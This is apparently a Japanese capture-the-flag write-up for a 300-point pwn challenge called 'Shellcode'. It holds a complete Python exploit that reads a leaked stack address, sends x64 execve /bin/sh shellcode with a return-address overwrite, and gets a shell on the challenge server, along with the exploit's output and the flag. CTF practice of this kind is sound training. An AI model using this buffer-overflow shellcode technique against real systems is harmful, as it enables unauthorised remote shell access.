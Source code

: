 # Shellcode:Pwn:300pts
添付されたファイルを解析し、以下にアクセスしてフラグを入手してください。  
`nc 10.1.1.10 13050`  
この設問では Linux ターミナルを使用します。  
[https://ctf.setodanote.net/webshell/](https://ctf.setodanote.net/webshell/)  
[shellcode_81ee2bc92a8806e81ee43f4f0b025b819f31a113.zip](shellcode_81ee2bc92a8806e81ee43f4f0b025b819f31a113.zip)  

# Solution
実行ファイルが配られる。  
まず初めにセキュリティ機構をチェックすると以下のようであった。  
```bash
$ checksec --file=shellcode
[*] '/shellcode'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
`NX disabled`なのでスタックのシェルコードを利用すると考えられるが、`PIE enabled`なので各アドレスがわからない。  
実行すると以下のようであった。  
```bash
$ ./shellcode
       |
target | [0x7ffee4820160]
       |
Well. Ready for the shellcode?
> flag
flag
$ python -c "print('A'*100)" | ./shellcode
       |
target | [0x7fff661e3ee0]
       |
Well. Ready for the shellcode?
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
謎のアドレスを表示してくれている(BOFもある)。  
gdbでこのアドレスを調査する。  
おそらくスタックのトップだと予測し、printf後に各アドレスを見る。  
![gdb.png](images/gdb.png)  
予想通りスタックのトップのようだ。  
ここから、シェルコードをスタックにのせた後にBOFを使いリターンアドレスを表示されたアドレスに飛ばせばよいとわかる。  
指定されたターミナルではpwntoolsが入っていないので、頑張って以下のようにpythonを書く。  
シェルコードは[x64でスタックバッファオーバーフローをやってみる - ももいろテクノロジー](https://inaz2.hatenablog.com/entry/2014/07/04/001851)よりお借りした。  
```python:exploit.py
import re
import sys
import socket

c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
c.connect(("10.1.1.10", 13050))
c.settimeout(1)

leak = b"[0x000000000000] ;("
try:
    leak = c.recv(256) + c.recv(256) + c.recv(256)
except:
    pass
leak = "0000" + re.search("\[0x(.*)\]", leak.decode()).group(1)
print(leak)

payload = b"\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05"
payload += b"A"*(88-len(payload)) + bytes.fromhex(leak)[::-1] + b"\n"
c.send(payload)
print(payload)

_ = c.recv(256)

c.send(f"{sys.argv[1]};ls\n".encode())
print(c.recv(512).decode())
```
以下のように実行するとシェルが取れるので、flagを探す。  
たまに、socket通信に失敗するのはご愛嬌。  
```bash
user@1aff9737a923:~$ python3 exploit.py ls
00007ffc12002bb0
b'H1\xd2RH\xb8/bin//shPH\x89\xe7RWH\x89\xe6H\x8dB;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb0+\x00\x12\xfc\x7f\x00\x00\n'
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var

user@1aff9737a923:~$ python3 exploit.py "cd /home"
00007fff44d23f40
b'H1\xd2RH\xb8/bin//shPH\x89\xe7RWH\x89\xe6H\x8dB;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@?\xd2D\xff\x7f\x00\x00\n'
user

user@1aff9737a923:~$ python3 exploit.py "cd /home/user"
00007ffebdfb1230
b'H1\xd2RH\xb8/bin//shPH\x89\xe7RWH\x89\xe6H\x8dB;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0\x12\xfb\xbd\xfe\x7f\x00\x00\n'
flag
shellcode

user@1aff9737a923:~$ python3 exploit.py "cat /home/user/flag"
00007fff45b73fc0
b'H1\xd2RH\xb8/bin//shPH\x89\xe7RWH\x89\xe6H\x8dB;\x0f\x05AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xc0?\xb7E\xff\x7f\x00\x00\n'
flag{It_is_our_ch0ices_that_show_what_w3_truly_are_far_m0re_thAn_our_abi1ities}

```
flagが得られた(チームメンバーが先に解いていた)。  

## flag{It_is_our_ch0ices_that_show_what_w3_truly_are_far_m0re_thAn_our_abi1ities}